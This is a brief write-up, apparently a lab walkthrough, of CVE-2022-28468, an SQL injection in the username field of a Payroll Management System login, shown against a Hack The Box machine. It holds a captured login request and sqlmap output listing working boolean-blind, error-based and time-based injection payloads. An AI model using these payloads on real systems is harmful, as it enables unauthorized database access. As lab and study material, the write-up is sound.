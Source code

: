 # CVE-2022-28468 - Payroll Management System SQL Injection

SQL Injection on the `username` parameter.

## Enumeration

![Payroll_Management_System](images/Payroll_Management_System.png)

## Exploitation

![Ajax Login](images/Payroll_Management_System_ajax_login_burp.png)

```bash
$ cat ajax-login.req 
POST /ajax.php?action=login HTTP/1.1
Host: preprod-payroll.trick.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 27
Origin: http://preprod-payroll.trick.htb
Connection: close
Referer: http://preprod-payroll.trick.htb/login.php
Cookie: PHPSESSID=3e252925j9elk56pjkdt3sfqv4

username=kali&password=kali
```

```bash
$ sqlmap -r ajax-login.req --dbms=mysql --data='username=1' --level 5 --risk 3
...
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=kali' OR NOT 8818=8818-- UmdJ&password=kali123

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=kali' OR (SELECT 9429 FROM(SELECT COUNT(*),CONCAT(0x71706a7671,(SELECT (ELT(9429=9429,1))),0x71787a7071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- nHZN&password=kali123

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=kali' AND (SELECT 3796 FROM (SELECT(SLEEP(5)))HacW)-- msGw&password=kali123
---
[08:17:07] [INFO] testing MySQL
[08:17:07] [INFO] confirming MySQL
[08:17:07] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.14.2
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
...
```

## Links

- [NIST - CVE-2022-28468](https://nvd.nist.gov/vuln/detail/CVE-2022-28468)
- [GitHub - nu11secur1ty - CVE-2022-28468](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/oretnom23/2022/Payroll-Management-System)
- [HTB Trick - good lab machine](https://app.hackthebox.com/machines/477)
